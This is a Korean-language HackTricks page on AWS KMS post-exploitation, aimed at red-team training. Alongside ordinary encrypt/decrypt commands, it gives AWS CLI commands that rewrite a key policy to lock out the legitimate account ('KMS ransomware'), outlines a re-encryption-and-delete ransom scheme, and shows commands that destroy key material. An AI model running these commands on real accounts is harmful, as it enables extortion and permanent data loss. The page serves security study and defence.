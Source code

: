 # AWS - KMS 포스트 익스플로이테이션

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## KMS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

{% hint style="success" %}
파일 내의 데이터를 복호화하려면 파일이 base64로 인코딩된 데이터가 아닌 이진 데이터를 포함해야 합니다.
{% endhint %}

* **대칭** 키 사용
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키 사용:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS 랜섬웨어

KMS에 대한 권한이 있는 공격자는 키의 KMS 정책을 수정하고 **자신의 계정에 대한 액세스를 부여**하여 정당한 계정에 부여된 액세스를 제거할 수 있습니다.

그런 다음, 정당한 계정 사용자는 이러한 키로 암호화된 서비스의 정보에 접근할 수 없게 되어 계정에 대한 쉽지만 효과적인 랜섬웨어가 생성됩니다.

{% hint style="warning" %}
**AWS 관리 키는** 이 공격의 영향을 받지 않으며, **고객 관리 키만** 영향을 받습니다.

또한 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 한다는 점에 유의하십시오(웹 콘솔에서 이 옵션이 없으면 이 공격은 CLI에서만 가능합니다).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
정책을 변경하고 외부 계정에만 액세스를 부여한 후, 이 외부 계정에서 **원래 계정에 대한 액세스를 다시 부여하는 새로운 정책을 설정하려고 하면, 할 수 없습니다**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 일반 KMS 랜섬웨어

#### 글로벌 KMS 랜섬웨어

글로벌 KMS 랜섬웨어를 수행하는 또 다른 방법이 있으며, 다음 단계를 포함합니다:

* 공격자가 가져온 **키 자료로 새로운 키를 생성**
* **이전 버전으로 암호화된 오래된 데이터**를 새로운 키로 **재암호화**
* **KMS 키 삭제**
* 이제 원래 키 자료를 가진 공격자만 암호화된 데이터를 복호화할 수 있습니다.

### 키 파괴
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **이전 작업이 교차 계정에서 수행되는 것을 방지합니다:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
